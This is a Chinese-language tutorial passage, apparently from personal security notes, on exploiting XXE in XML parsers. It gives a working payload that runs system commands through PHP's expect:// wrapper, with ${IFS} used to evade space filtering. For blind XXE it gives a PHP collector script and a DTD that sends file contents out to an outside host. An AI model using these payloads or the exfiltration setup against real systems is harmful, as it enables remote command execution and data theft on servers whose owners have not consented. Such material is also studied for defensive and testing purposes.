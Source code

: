 前提：需要php环境安装了expect扩展

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY[
<!ENTITY s SYSTEM "expect://whoami">        #空格可使用${IFS}替换
]>
<user><username>&s;</username><password>admin2</password></user>

expect://ls${IFS}-al        #举例
```

#### 无回显XXE

​![无回显XXE](assets/无回显XXE-20240922215733-f2ot2uw.png)​

1. 先在第三方VPS创建两个文件，getshell.php、shell.dtd,,,,,当请求发送后被攻击端会访问这两个文件，并将文件内容返回。

```python
#getshell.php

<?php
file_put_contents('shellout.txt',$_GET['get']);
?>
```

```python
#shell.dtd

<!ENTITY % a "<!ENTITY &#37; send SYSTEM 'http://ftp6610290.host123.sanfengyun.cn/getshell.php?get=%file;'>">
%a;
```

2. 浏览器访问这两个文件看能不能访问  200![image](assets/image-20240922215314-6407xqb.png)​
